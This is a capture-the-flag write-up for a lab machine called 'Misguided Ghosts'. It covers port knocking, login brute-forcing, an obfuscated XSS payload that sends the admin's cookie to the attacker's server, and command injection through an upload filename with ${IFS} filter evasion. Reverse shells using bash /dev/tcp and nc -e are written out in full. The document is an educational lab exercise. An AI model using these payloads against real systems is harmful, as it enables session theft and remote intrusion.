

# MISGUIDED GHOSTS

### PORT SCAN

| PORT | SERVICE |
| ---- | ------- |
| 21   | FTP     |
| 22   | SSH     |

## RECONNAISSANCE

***

FTP Anonymous login is enabled:

```
ftp 10.10.20.176
Connected to 10.10.20.176.
220 (vsFTPd 3.0.3)
Name (10.10.20.176:samsepiol): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           103 Aug 28  2020 info.txt
-rw-r--r--    1 ftp      ftp           248 Aug 26  2020 jokes.txt
-rw-r--r--    1 ftp      ftp        737512 Aug 18  2020 trace.pcapng
226 Directory send OK.
```

We can get all files with `mget *` and proceed:

```bash
cat info.txt && cat jokes.txt
I have included all the network info you requested, along with some of my favourite jokes.

- Paramore

Taylor: Knock, knock.
Josh:   Who's there?
Taylor: The interrupting cow.
Josh:   The interrupting cow--
Taylor: Moo

Josh:   Knock, knock.
Taylor: Who's there?
Josh:   Adore.
Taylor: Adore who?
Josh:   Adore is between you and I so please open up!
```

As we can see, there is a hint on `port knocking`, port knocking is a stealthy method used to open closed ports on a firewall by sending a specific sequence of connection attempts (knocks) to predefined ports. These ports appear closed from the outside, but when the correct sequence is received, the firewall temporarily opens a port (e.g., SSH) for the client. It’s like a secret handshake, only those who know the right knock pattern can get in. This technique adds an extra layer of obscurity and is often used to hide services from unauthorized users.

To visualize more info on port knocking, refer to:



If we analyze the packet on wireshark, we can find this:

<figure><figcaption></figcaption></figure>

We can see some `TCP` requests being made to an IP, let's filter with:

```
ip.addr == 192.168.236.131
```

<figure><figcaption></figcaption></figure>

We found our combination to knock, we can use `knock` utility on Kali, to install it do:

```
sudo apt install knockd
```

Now, we can do:

```
knock IP 7864 8273 9241 12007 60753
```

If we run nmap again, we can see a new port has open:

```bash
nmap -sV -sC -T4 -Pn 10.10.20.176
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-04 18:17 EDT
Nmap scan report for 10.10.20.176
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.21.28
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:91:89:96:af:bc:06:b9:8d:43:df:53:dc:1f:8f:12 (RSA)
|   256 25:0b:be:a2:f9:64:3e:f1:e3:15:e8:23:b8:8c:e5:16 (ECDSA)
|_  256 09:59:9a:84:e6:6f:01:f3:33:8e:48:44:52:49:14:db (ED25519)
8080/tcp open  ssl/http Werkzeug httpd 1.0.1 (Python 2.7.18)
|_http-title: Misguided Ghosts
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| ssl-cert: Subject: commonName=misguided_ghosts.thm/organizationName=Misguided Ghosts/stateOrProvinceName=Williamson Country/countryName=TN
| Not valid before: 2020-08-11T16:52:11
|_Not valid after:  2021-08-11T16:52:11
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


<figure><figcaption></figcaption></figure>

There's a simple web application with an image, let's fuzz:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "https://10.10.20.176:8080/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.20.176:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login        [Status: 200, Size: 761, Words: 107, Lines: 29, Duration: 178ms]
```

Login page, we don't have any credentials yet, let's try SQLI:

<figure><figcaption></figcaption></figure>

No luck, since this is a `https` web application, checking the certificate could be useful:

<figure><figcaption></figcaption></figure>

There's a possible user named `zac`, we can try brute forcing the login page with hydra or Caido:

<figure><figcaption></figcaption></figure>

We can see that credentials are:

```
zac:zac
```

Once we go inside the login page, we can see this:


<figure><figcaption></figcaption></figure>

Let's begin exploitation.

## EXPLOITATION

***

We can add title's and subtitles, the message saying:

```
Create a post below; admins will check every two minutes so don't be rude.
```

Could hint at a possible XSS on here, `HTTPONLY` flag is set to false so maybe we can perform cookie hijacking, let's check if XSS exists:

<figure><figcaption></figcaption></figure>

If we try basic xss, we can notice it says what we're too late for the XSS bounty, which is true partially, XSS still exists, the issue is that some characters are being filtered due to a protection on the page, we can still obfuscate our payload, refer to this article:



We need to check which characters are being filtered, for example, `<>` and `</>` are being filtered but `script` is too, we can change our payload for an obfuscated version of these two:

```bash
&lt;sscriptcript&gt;alert('xss')&lt;/sscriptscript&gt;
```

Once we submit the post, we can see this:

<figure><figcaption></figcaption></figure>

XSS works, let's try to steal the admin cookie with `OOB XSS` :



We can use the following payload:

```javascript
&lt;sscriptcript&gt;var i = new Image(); i.src = "http://10.14.21.28:8000/" + document.cookie;&lt;/sscriptcript&gt;
```

We need to set up a python server and wait two minutes for the admin to review the page:

```python
10.10.20.176 - - [04/Jul/2025 23:27:28] code 404, message File not found
10.10.20.176 - - [04/Jul/2025 23:27:28] "GET /login=hayley_is_admin HTTP/1.1" 404 -
```

We got our cookie:

```
hayley_is_admin
```

Since we got our admin cookie, we need to know in where to utilize it, if we go to the dashboard, nothing changes:

<figure><figcaption></figcaption></figure>

We can fuzz with our new cookie to check if we missed anything:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "https://10.10.20.176:8080/FUZZ" -H "Cookie: login=hayley_is_admin" -H "User-Agent: Mozilla/5.0" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.20.176:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Header           : Cookie: login=hayley_is_admin
 :: Header           : User-Agent: Mozilla/5.0
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

photos
login
```

We can find `photos` on here, let's check it up:

<figure><figcaption></figcaption></figure>

We can upload files, let's take a look at the request for uploading a test file:

<figure><figcaption></figcaption></figure>

The error message hints at command injection, we get:

```xml
<pre>cannot access &#39;file.sh&#39;: No such file or directory</pre>
```

What's happening here is that once we upload a file, the server uses the filename from the GET parameter, in this case `image=file.sh` directly in a shell command without prior sanitization, which means that we may be able to exploit command injection to achieve RCE, let's use a simple test payload:

```bash
file.sh;id
```

If we look at the response:&#x20;

<figure><figcaption></figcaption></figure>

It says we are root, we may be inside of a docker container, let's get a shell:

```
file.sh;bash+-i+>%26+/dev/tcp/IP/4444+0>%261
```

We get:

```
<pre>cannot access &#39;file.sh;bash-i&gt;&amp;/dev/tcp/IP/44440&gt;&amp;1&#39;: No such file or directory</pre>
```

Which means that `+` may not be properly accepted, it seems like the spaces are filtered:

```
file.sh;+ 

<pre>cannot access &#39;file.sh;&#39;: No such file or directory</pre>
```

Indeed, spaces are being filtered, we can use`${IFS}`, `${IFS}` stands for Internal Field Separator, a special environment variable in Unix-like shells that defines what characters are used to split fields, many filters look for literal spaces but tend to miss environment variables like this one, let's try to check if it works first:

<figure><figcaption></figcaption></figure>

It works, no error message appears, we can restructure our shell command now, after testing `bash` is also filtered too, we need another reverse shell, let's try netcat one:

```bash
nc${IFS}IP${IFS}4444${IFS}-e${IFS}/bin/sh
```

<figure><figcaption></figcaption></figure>

We got our shell, let's begin privesc.


## PRIVILEGE ESCALATION

***

First of all and as always, let's stabilize our shell


```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```


